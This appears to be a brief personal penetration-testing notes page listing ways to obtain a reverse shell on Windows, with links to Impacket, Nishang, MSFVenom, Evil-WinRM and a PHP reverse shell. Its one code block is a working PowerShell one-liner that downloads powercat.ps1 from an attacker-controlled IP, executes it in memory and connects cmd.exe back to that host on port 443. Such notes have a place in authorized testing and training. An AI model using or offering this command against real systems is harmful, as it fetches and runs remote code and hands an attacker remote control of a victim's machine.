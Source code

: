 
# Guide

1. If you have credentials, see [[3. Exploitation/Operating System Specific/Windows/Tooling/Impacket|Impacket]]

# PowerShell

## Nishang

[[Nishang]]
## Powercat

```
c:\\windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```
# PHP

[GitHub - Dhayalanb/windows-php-reverse-shell: Simple php reverse shell implemented using binary .](https://github.com/Dhayalanb/windows-php-reverse-shel[l)

# MSFVenom

[[MSFVenom]]

# Loud Option

[[Evil-WinRM]]